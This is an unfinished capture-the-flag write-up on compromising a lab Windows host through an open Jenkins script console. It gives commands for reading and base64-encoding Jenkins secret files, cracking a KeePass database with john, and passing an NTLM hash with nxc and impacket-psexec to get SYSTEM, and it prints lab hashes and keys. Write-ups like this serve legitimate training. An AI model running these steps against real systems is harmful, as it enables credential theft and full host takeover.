 #InProgress 
```IP
10.10.10.63
```
# Enumeration

## HTTP 80
We get an image error everytime we search for something in the application. The error displays the MSQLS version: Microsoft SQL Server 2005 9.00.4053.00
Fuzzing directories doesn't seem to reveal anything interesting.
It seems to be patched against SQLi too.
## HTTP 50000
Jetty 9.4.z-SNAPSHOT
Apparently we can't do a path traversal attack, fuzzing directories proves useless until we try with seclist `directory-list-2.3-medium.txt` which finds `askjeeves` directory.
Ì tried to exploit it using https://github.com/jpiechowka/jenkins-cve-2016-0792.git but we get the following message:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226094323.png?raw=true)
If we navigate to askjeeves we have the jenkins console where we can execute code with the build functionality
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226094705.png?raw=true)
We can also see in the bottom right corner that it is jenkins version 2.87
More information
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226095921.png?raw=true)
Apparently we can decrypt a password with the following code https://github.com/gquere/pwn_jenkins/tree/master if we have the following files:
```
type C:\Users\Administrator\.jenkins\users\admin\config.xml
type C:\Users\Administrator\.jenkins\secrets\master.key
type C:\Users\Administrator\.jenkins\secrets\hudson.util.Secret
```
The last file however will output odd characters. We will need to transform it into base64 in order to properly operate with it:
```
powershell.exe -c "$c=[convert]::ToBase64String((Get-Content -path 'C:\Users\Administrator\.jenkins\secrets\hudson.util.Secret' -Encoding byte));Write-Output $c"
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226100901.png?raw=true)
```xml
<?xml version='1.0' encoding='UTF-8'?>
<user>
  <fullName>admin</fullName>
  <properties>
    <jenkins.security.ApiTokenProperty>
      <apiToken>{AQAAABAAAAAwID3cR3pyZaEkaDPU25Z0S+nrU8+gDgB0JEWORJ5L1P2T+zXc/tSs2IVn1ugWLaui54D6yYki4vhXQtGhqUSeFw==}</apiToken>
    </jenkins.security.ApiTokenProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$QyIjgAFa7r3x8IMyqkeCluCB7ddvbR7wUn1GmFJNO2jQp2k8roehO</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1509762882255</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
```

```key
40e19a08d55698273e82182aae560bb78f5c99205e1b603de13e4729dfeed0bfaa9ed79557107ca7294a8a18a9bd81d60ee5610943e488bf2150dc1b06935b8f2a4f5b9370e0cb1d28249758e2b96cf2b658f2c5290fc6a202d9a04621c79eb0d09faf3246e50998a0aaea42b76eb96186f4842e0f9c07bbbd77152afc59de16
```

```hudson.util.Secret
17YMaGax5EC5QaxvqhRSuurM7gVN//UqUuX1U8FJW2Np3qtsgvujgtBo/v1tXF/yGlXbB66bv86gYvl7eIxilj1CaWlQr07+TyNivEdQPf+UEmCbxeP2aqF4fs6HAiXZzDerWnsEafFDAJlD8pedi7AJy2pojaveZAQIYMhuthnnRpEZFEEaHze340TfNySncWCCPMGP1Xde7tgiitohjQeFjfRB3mJltOTMEwyBlNvojomte32a7t7luw1uPJpHgmbqe987pEL1haa/VRq1kUB8kBegvnCXSa8FmLBRcPKU1XNmROSAZhuiPaNeWESv67jzlJiiYl7bNaMY3I/iXJ8kTKa3iRK9obBN05xKCQI=
```
We get the following password:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226102958.png?raw=true)
```
b979d8dc2568628f73c75157a2fec5ee
```

Doesn't seem to work. If we execute a simple powershell reverse shell encoded in base64 we get a connection. Apparently it was a far easier path:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226103455.png?raw=true)
We get user.txt
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226103628.png?raw=true)
Administrator does not seem to contain the flag root.txt.
We geta CEH.kdbx file though
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226103939.png?raw=true)
we can transfer it copying to our workspace in jenkins
```
copy \users\kohsuke\documents\CEH.kdbx C:\Users\Administrator\.jenkins\workspace\test
```
And now we can download it in our local machine and extract the hash:
```
keepass2john /home/kali/Downloads/CEH.kdbx > CEH.hash
```
And we will try to crack it with
```
john --wordlist=/usr/share/wordlists/rockyou.txt CEH.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226111230.png?raw=true)
Now we can access the database:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226111849.png?raw=true)
There is a password that seems like an NTLM hash:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226111835.png?raw=true)
If we perform a pass the hash attack we will see that it works with administrator user:
```
nxc smb 10.10.10.63 -u administrator  -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226112109.png?raw=true)
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.10.10.63
```
We have now access as NT Authority System
And we can see in the administrator desktop a data stream file
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226112551.png?raw=true)
Which we can read with
```
more < hm.txt:root.txt
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226112748.png?raw=true)

# Exploitation

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement

